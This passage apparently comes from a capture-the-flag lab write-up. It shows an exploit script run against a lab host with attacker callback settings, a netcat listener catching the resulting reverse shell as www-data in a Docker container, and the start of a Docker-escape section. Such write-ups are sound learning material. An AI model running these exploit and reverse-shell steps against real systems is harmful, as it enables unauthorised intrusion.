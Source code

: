 Fire exploit against target
```bash
$ python3 exploit.py -u http://10.10.11.211 --LHOST=10.10.14.17 --LPORT 80
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

Catch connection from target
```bash
$ nc -lvp 80          
listening on [any] 80 ...
10.10.11.211: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.211] 39142
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$
```

> Yes we got code exuection!
{: .prompt-info }

However, we see that we have an unprivilged user (`www-data`) and we are in a docker container which is indicated by the hostname `50bca5e748b0`
{: .prompt-danger }

---

# post exploitation
## docker escape
Lets start by having a closer look at the container we have controll of at the moment.
Having a look at the file system reveals an interesting file.
```bash
www-data@50bca5e748b0:/$ ls
ls
bin
boot
dev
entrypoint.sh
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
